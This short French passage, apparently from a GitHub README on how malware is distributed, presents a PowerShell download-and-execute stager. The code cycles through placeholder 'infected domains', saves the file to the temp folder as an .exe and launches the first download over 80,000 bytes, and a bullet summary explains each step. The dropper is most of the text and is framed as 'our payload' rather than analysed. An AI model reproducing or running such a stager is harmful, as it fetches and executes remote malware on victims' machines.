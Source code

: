 
La plupart des malwares ne sont pas distribué en un seul fichier.

## __Download_Payload___

Afin télécharger et d'éxecuter le malware en mémoire. On va faire appelle à un domaine infecté pour télécharger notre payload.

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- Creer un objet pour telecharger
- Faire une liste des liens où trouver le malware
- Télécharger puis executer le premier fichier qui aura une taille > 80000

